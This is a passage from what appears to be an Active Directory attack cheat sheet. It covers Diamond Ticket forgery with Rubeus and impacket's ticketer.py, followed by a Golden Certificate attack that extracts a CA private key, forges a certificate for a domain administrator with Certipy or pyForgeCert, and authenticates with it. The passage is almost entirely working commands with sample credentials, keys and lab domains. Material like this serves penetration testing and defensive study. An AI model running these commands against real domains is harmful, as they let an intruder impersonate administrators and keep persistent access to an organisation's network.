 ```bash
# rubeus
Rubeus.exe diamond /krbkey:8161d45ac308add4c553fad55fe70d8ce8c06160eeeb720df8bcbf16575400ee /user:loki /password:Password123 /enctype:aes /domain:range.net /dc:dc01.range.net /ticketuser:rangeadm /ticketuserid:1104 /groups:512 /nowrap

ticketer.py -request -user kiwiadm -password 'Password1234' -domain kiwi.local -domain-sid S-1-5-21-324228654-75577378-1178627105 -aesKey e2fa5c4cead71ececa483df18787ead67099d5286cd8ef0424b791dd35516d2e -groups '512,513,516,518,519,520' -user-id 1337 -duration 3650 'lel'
```
2. To verify the Diamond ticket (modified TGT), requst a service ticket (TGS)
```powershell
.\Rubeus.exe asktgs /ticket:<tgt> /service:cifs/dc01.range.net /nowrap
```
For detailed explanation, read this article by Semperis [here](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)

### Golden Certificate
The title is basically self explanatory, this attack is pretty much the same as golden certificate where you forge a certificate offline with a compromised private key on a CA server *(Having system access on a CA)*. Therefore, it can be used to forge a certificate and sign it with the private key to be used later on for persistence purposes. A certificate will normally valid up until 1 year duration. 
1. Extract private key from CA
```bash
# SharpDPAPI
SharpDPAPI.exe certificates /machine

# Certipy
certipy ca -u 'localadmin' -p 'Password1234' -backup -target ca01.range.net -ca 'range-CA01-CA'
```
2. *If Certipy is used in step 1, you can skip this step*. Copy the cert into a .pem file and convert to a usable format (.pfx) to perform [Pass-The-Certificate](#pass-the-certificate) attack. *Note that this will require a user defined password*
```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
3. Forge a certificate
```bash
# certipy (this step is unnecessary if you used certipy in step 1)
1. convert pfx to a certipy usable cert (no password)
certipy cert -export -pfx cert.pfx -password admin -out final.pfx

2. forge a certificate 
certipy forge -ca-pfx final.pfx -upn rangeadm@range.net -subject 'CN=rangeadm,CN=Users,DC=RANGE,DC=NET'

3. authenticate with the certificate and win!
certipy auth -pfx rangeadm_forged.pfx -dc-ip 192.168.86.183

# pyForgeCert
1. using PEM cert (you can skip step 2 for this one)
python pyForgeCert.py -i cert.pem -o admin.pfx

2. using PFX cert
python pyForgeCert.py -i cert.pfx -o admin.pfx -pfx -p admin

3. Use Pass-The-Certificate and win!
```
